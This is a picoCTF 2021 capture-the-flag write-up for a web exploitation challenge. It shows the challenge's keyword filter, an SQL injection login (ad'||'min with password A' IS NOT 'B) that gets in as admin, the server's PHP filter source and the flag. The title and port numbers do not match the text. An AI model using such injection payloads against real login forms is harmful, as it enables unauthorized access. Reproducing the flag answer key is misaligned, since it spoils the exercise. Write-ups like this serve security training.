

# Web Gauntlet 2

## Information

- picoCTF 2021
- Web Exploitation
- 300 Points

## Description

If the flag is not displayed after completing this challenge, try clearing your cookies. Cookies set by other challenges may prevent the flag from displaying properly.

Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:29772/ Filter: http://mercury.picoctf.net:29772/filter.php

## Hints

1. Each filter is separated by a space. Spaces are not filtered.

2. There is only 1 round this time, when you beat it the flag will be in filter.php.

3. sqlite

## Solution

Visting http://mercury.picoctf.net:26215/ gives us a sign in form similar to [Web Gauntlet](/web-exploitation/web-gauntlet/web-gauntlet.md) and [Web Gauntlet 2](/web-exploitation/web-gauntlet-2/web-gauntlet-2.md) .



In `filter.php`, we can see what the sign in form filters.

```
Filters: or and true false union like = > < ; -- /* */ admin
```

We can use the same username and password from Web Gauntlet 2 in this challenge.

```
Username: ad'||'min
Password: A' IS NOT 'B
```

Go to `filter.php` and the flag should be at the bottom.

```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}
?>
```

## Flag

picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}
